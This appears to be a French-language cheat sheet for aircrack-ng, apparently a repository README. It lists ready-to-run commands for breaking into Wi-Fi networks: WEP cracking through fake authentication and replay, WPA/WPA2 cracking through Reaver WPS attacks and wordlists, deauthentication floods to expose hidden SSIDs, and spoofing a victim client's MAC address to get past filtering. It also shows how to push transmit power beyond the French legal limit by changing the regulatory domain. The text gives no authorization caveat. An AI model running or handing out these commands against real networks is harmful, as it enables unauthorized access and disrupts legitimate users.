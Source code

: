 
# Cheat sheet AIRCRACK-NG

## Nécessite une carte pouvant être passer en mode monitor.

### Ouvrir le mode moniteur

 ifconfig wlan0mon down
 
 iwconfig wlan0mon mode monitor
 
 ifconfig wlan0mon up
#### modifier "wlan0mon" par le nom de votre carte si celle-ci est différent

### Augmenter la puissance de transmission Wi-Fi


 iw reg set BO
 iwconfig wlan0 txpower <NmW|NdBm|off|auto>
 iwconfig
#### On peut le mettre à 30 mais la limite légal en France est de 20.

### Changer de canal WiFi
 iwconfig wlan0 channel <SetChannel(1-14)>
 
#### Permet d'éviter les interférences avec d'autres réseaux sans fil et optimiser les performances

## CRACKING WEP
### Méthode 1 : Attaque par authentification factice
#### Cette technique attaque permet à l'attaquant de se faire passer  pour un client légitime en utilisant une authentification factice afin de s'associer avec un point d'accès sans fournir la clé WEP correcte. Ce qui est possible car le protocole WEP ne vérifie pas l'intégrité des adresses MAC pendant le processus d'authentification

 macchanger --show wlan0mon
 
#### Utilisation de macchanger pour afficher l'adresse MAC actuelle de l'interface réseau en mode moniteur (wlan0mon)
# Lancement des attaques
 aireplay-ng -1 0 -a BSSID -h OurMac -e ESSID wlan0mon
#### Permet de faire croire au point d'accès que vous êtes un client autorisé.
 
 aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b BSSID -h OurMac wlan0mon
#### Permet d'accumuler suffisamment de données pour briser la clé WEP 	


 aircrack-ng –b BSSID PCAP_of_FileName
#### Aircrack-ng va analyser les paquets capturés, utiliser les IVs pour casser la clé WEP. Le temps nécessaire dépend de plusieurs facteurs comme la puissance du signal, la quantité de trafic sur le réseau, et la vitesse de votre matériel


## CRACKING WPA / WPA2

### Méthode 1 : Attaque WPS

 apt-get install reaver
 #### Installe REAVER qui est un outil pour effectuer des attaques sur le WPS

 wash –i wlan0mon –C
 #### Permet de vérifier si le point d'accès cible a WPS activé et est vulnérable
 
 reaver –i wlan0mon –b <BSSID> -vv –S
 
#### Pour lancer l'attaque WPS et récupérer la clé WPA/WPA2.



### Méthode 2 : Attaque par dictionnaire

#### Aircrack-ng utilise une wordlist pour essayer de craquer la clé WPA/WPA2 à partir d'un handshake capturé.

 aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>


## TROUVER SSID CACHÉ


 aireplay-ng -0 20 –a <BSSID> -c <VictimMac> wlan0mon 
#####  Envoi 20 paquets de désauthentification pour forcer une reconnexion et capturer le SSID.

## CONTOURNEMENT DU FILTRAGE MAC


 aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
#### Déclenche une attaque de désauthentification pour déconnecter les clients autorisés. 
 
 ifconfig wlan0mon down
 macchanger –-mac <VictimMac> wlan0mon
 ifconfig wlan0mon up
#### Permet de changer l'adresse MAC de votre carte réseau pour correspondre à celle d'un client autorisé
 
 aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon

#### Permet de se connecter au réseau en se faisant passer pour le client autorisé.
